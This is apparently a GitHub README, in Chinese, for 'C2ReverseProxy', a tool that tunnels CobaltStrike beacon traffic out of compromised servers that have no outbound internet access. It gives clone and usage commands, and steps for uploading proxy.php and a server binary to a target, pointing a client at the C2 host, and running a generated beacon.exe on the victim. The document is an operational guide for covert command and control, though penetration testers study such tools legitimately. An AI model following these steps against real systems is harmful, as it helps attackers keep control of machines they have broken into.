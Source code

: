 # C2ReverseProxy

ReverseProxy C2 - 在不出网的情况下使cs上线

# Description

在渗透过程中遇到不出网的环境时，可使用该工具建立反向代理通道，使CobaltStrike生成的beacon可以回弹到CobaltStrike服务器。

# Install

```
git clone https://github.com/Daybr4ak/DReverseProxy.git
```

# Usage

```markdown
该文件分为3个部分：
1、C2script  
2、C2ReverseClint
3、C2ReverseServer

使用步骤：
1、将C2script目录下的对应文件，如proxy.php 以及C2ReverseServer上传到目标服务器。
2、使用C2ReverseServer建立监听端口：
./C2ReverseServer  (默认为64535)
3、修改C2script目录下对应文件的PORT，与C2ReverseServer监听的端口一致。
4、本地或C2服务器上运行C2ReverseClint工具
./C2ReverseClint -t C2IP:C2ListenerPort -u http://example.com/proxy.php (传送到目标服务器上的proxy.php路径)
5、使用CobaltStrike建立本地Listener(127.0.0.1 64535)端口与C2ReverseServer建立的端口对应
6、使用建立的Listner生成可执行文件beacon.exe传至目标服务器运行
7、可以看到CobaltStrike上线。
```
# Bug

一个server端口只支持一个cs上线


